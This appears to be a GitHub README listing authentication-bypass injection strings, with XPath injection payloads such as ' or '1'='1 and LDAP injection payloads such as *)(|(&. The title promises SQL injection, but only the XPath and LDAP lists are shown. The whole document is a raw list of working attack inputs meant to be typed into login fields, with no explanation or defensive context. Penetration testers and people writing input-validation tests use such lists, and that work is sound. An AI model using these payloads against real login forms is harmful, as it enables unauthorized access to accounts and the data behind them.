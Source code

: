 # SQL-Injection-Authentication-Bypass
Xpath Injection, LDAP Injection, SQL Injection Authentication Bypass

XPATH Injection Authentication Bypass:
```' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2

LDAP Injection Authentication Bypass:
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|

